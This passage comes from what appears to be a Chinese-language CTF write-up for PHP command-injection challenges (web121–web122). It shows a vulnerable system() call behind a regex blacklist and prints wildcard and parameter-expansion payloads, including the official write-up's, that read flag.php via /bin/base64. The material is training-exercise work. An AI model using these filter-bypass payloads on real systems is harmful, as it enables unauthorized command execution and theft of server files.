 又过滤了SHLVL,可以用#?来代替,payload如下

```
${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???  // /bin/base64 flag.php
```

![image-20220713123721471](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131237551.png?x-oss-process=hzy)

# web122

题目如下

```
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```



> 通过$?来实现的，$?是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误

官方wp给的payload

```
code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```

反复刷新就出来了

![image-20220713123941038](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131239105.png?x-oss-process=hzy)

# web124

题目如下
